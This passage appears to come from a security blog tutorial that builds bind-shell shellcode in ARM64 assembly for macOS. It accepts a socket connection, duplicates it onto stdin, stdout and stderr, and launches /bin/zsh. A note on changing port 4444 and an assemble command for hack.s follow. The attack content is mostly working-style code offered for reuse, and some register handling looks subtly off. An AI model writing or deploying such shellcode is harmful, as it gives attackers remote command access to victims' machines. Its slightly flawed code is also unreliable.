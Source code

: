 ```nasm
  mov    x16, #30         ; bsd syscall for accept (30)
  svc    #0xffff          ; exec syscall
  mov    x20, x0          ; save new socket descriptor

  ; dup2
  ; int dup2(int fd, int fd2)
  mov    x16, #90         ; bsd syscall dup2 (90)
  mov    x1, #2           ; file descriptor 2 = STDERR
  svc    #0xffff          ; execute syscall

  mov    x0, x20          ; restore new socket descriptor
  mov    x1, #1           ; file descriptor 1 = STDOUT
  svc    #0xffff          ; execute syscall

  mov    x0, x20          ; restore new socket descriptor
  lsr    x1, x1, #1       ; file descriptor 0 = STDIN
  svc    #0xffff          ; execute syscall

  ; launch shell via execve
  ; execve("/bin/zsh", ["/bin/zsh"], NULL)
  mov     x3, #0x622f          ; move "/bin/zsh" into x3 (little endian)
  movk    x3, #0x6e69, lsl#16  ; 'in'
  movk    x3, #0x7a2f, lsl#32  ; '/z'
  movk    x3, #0x6873, lsl#48  ; 'sh'
  stp     x3, xzr, [sp,#-16]!  ; push path and terminating 0 to stack
  add     x0, sp, xzr          ; save pointer to path = argv[0] in x0
  stp     x0, xzr, [sp,#-16]!  ; push argv and terminating 0 to stack
  add     x1, sp, xzr          ; move pointer to argument array into X1
  mov     x2, xzr              ; third argument for execve ignored
  mov     x16, #59             ; bsd syscall for execve (59)
  svc     #0xffff              ; execute syscall to launch shell
```

As you can see, you can update another port instead of using `4444` if you want.    

### demo

Let's go to see this in action. First of all compile assembly code:    

```bash
as -arch arm64 hack.s -o hack.o
```

![malware](/assets/images/176/2025-09-01_19-37.png){:class="img-responsive"}    

